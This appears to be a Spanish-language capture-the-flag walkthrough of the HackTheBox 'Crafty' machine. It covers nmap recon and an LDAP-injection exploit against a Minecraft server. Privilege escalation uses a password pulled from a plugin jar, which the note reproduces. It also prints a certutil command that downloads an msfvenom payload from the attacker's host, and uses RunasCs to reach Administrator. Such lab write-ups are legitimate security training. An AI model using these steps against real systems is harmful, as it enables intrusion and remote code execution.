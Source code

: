 ### Ping
#windows #Easy #fuzzing 
```python
ping -c 1 10.10.11.249
PING 10.10.11.249 (10.10.11.249) 56(84) bytes of data.
64 bytes from 10.10.11.249: icmp_seq=1 ttl=127 time=235 ms

--- 10.10.11.249 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 235.207/235.207/235.207/0.000 ms
```

### TTL 127= Wondows
### nmap
```python
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-10 22:17 EST
Stats: 0:00:39 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 73.53% done; ETC: 22:18 (0:00:14 remaining)
Nmap scan report for 10.10.11.249
Host is up (0.097s latency).
Not shown: 65533 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE   VERSION
80/tcp    open  http      Microsoft IIS httpd 10.0
|_http-title: Did not follow redirect to http://crafty.htb
|_http-server-header: Microsoft-IIS/10.0
10.10.11.249:25565/tcp open  minecraft Minecraft 1.16.5 (Protocol: 127, Message: Crafty Server, Users: 3/100)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

### Ports: 80/http - 25565/tcp

### Enumeración del puerto 80

agregamos el subdominio al que nos esta redirigiendo en el /etc/host

![[Pasted image 20240611202631.png]]

pagina web/ tenemos lo que parece ser un subdominio diferente llamdo play.crafty.htb

![[Pasted image 20240611202638.png]]

### Fuzzing con gobuster

![[Pasted image 20240611202644.png]]

### Tlauncher
debido a que tenemos un servidor de minecraft usaremos tlauncher para conectarnos

![[Pasted image 20240611202650.png]]

### Enumeracion del servidor 
con una pequeña busqyeda encontramos que esta version es vulnerable a una inyeccion de ldap

![[Pasted image 20240611202657.png]]

tenemos esta Poc que nos sera muy util

![[Pasted image 20240611202706.png]]
para ejecutar esto necesitamos Java JDK

### pyCraft
usaremos pycraft para hacer la inyección ldap al servidor

![[Pasted image 20240611202714.png]]

### Poc
"debemos editar el exploit para que ejecute una cmd.exe.... perfecto tenemos conexión y estamos redirigiendo el trafico al puerto 9001

![[Pasted image 20240611202722.png]]

### Redireccionamiento de puerto
estaremos a la escucha por el 9001 donde estaremos redireccionando la inyecccion ldap

![[Pasted image 20240611202727.png]]

### star.py
el script star.py no solicita el nombre de usuario para la segunda opcion nos pide dejarlo en blanco para el modo offline y nos solicita el host+port donde esta corriendo el servidor de minecraft

![[Pasted image 20240611202736.png]]

### Recibimos conexión 

![[Pasted image 20240611202742.png]]

### Escalada De privilegios
en el directorio de plugins hemos conseguido uno que parece interesante. 

![[Pasted image 20240611202751.png]]

### Transferencia de archivo
vamos a enviarnos este archivo a nuestra maquina atacante para poder analizarlo

![[Pasted image 20240611202757.png]]

![[Pasted image 20240611202802.png]]

### impacket-smbserver
usaremos impacket-smbserver para crear un servidor compartido 
![[Pasted image 20240611202810.png]]

copiamos el archivo especificando la ip y el directorio donde esta corriendo el servidor

![[Pasted image 20240611202816.png]]

### analizando el archivo
usaremos jar para extraer la informacion del archivo

![[Pasted image 20240611202824.png]]

tenemos una estructura de archivos bien organizada lo que parece ser un archivo.jar completo
### JD-GUI
usaremos jd-gui para poder leer este archivo.jar

![[Pasted image 20240611202831.png]]
tenemos lo que parece ser unas credenciales

```python
$SecPass = ConvertTo-SecureStrings 's67u84zKq8IXw' -AsPlainText -Force
```

### msfvenom
creamos un payload con msfvenom y lo moveremos a la ruta /var/www/html
![[Pasted image 20240611202840.png]]

### msfconsole
usaremos el multi/handler
![[Pasted image 20240611202847.png]]

### multi/handler
estaremos escuchando con el multi/handler para intentar conserguir una reverse shell

![[Pasted image 20240611202856.png]]
### http.server
creamos un servidor para poder compartir el archivo
![[Pasted image 20240611202932.png]]

### transferencia de archivo
subiremos el payload a la maquina victima usando el comando 
```python
	certutil -urlcache -f http://<tun0 IP>:4245/expl.exe %temp%/expl.exe
```

![[Pasted image 20240611202941.png]]

ejecutamos el payload
![[Pasted image 20240611202947.png]]

### multi/handler
recibimos conexión en el multi/handler
![[Pasted image 20240611202955.png]]

### vamos a la ruta  c:\users\svc_minecraft\server\logs 
aqui subiremos un nuevo payload con msfvenom como hicimos anteriormente pero en un puerto diferente y tambien vamos a subir el archivo RunasCs.exe
(https://github.com/antonioCoco/RunasCs/releases?source=post_page-----316a735a306d--------------------------------)
![[Pasted image 20240611203011.png]]
una ves que tenemos el payload y el RunasCs.exe estaremos a la escucha y ejecutamos .\RunasCs.exe Administrator s67....... expl3.exe

![[Pasted image 20240611203016.png]]

### Runas.Cs.exe Administrator shell

![[Pasted image 20240611203021.png]]

### WE ARE ROOT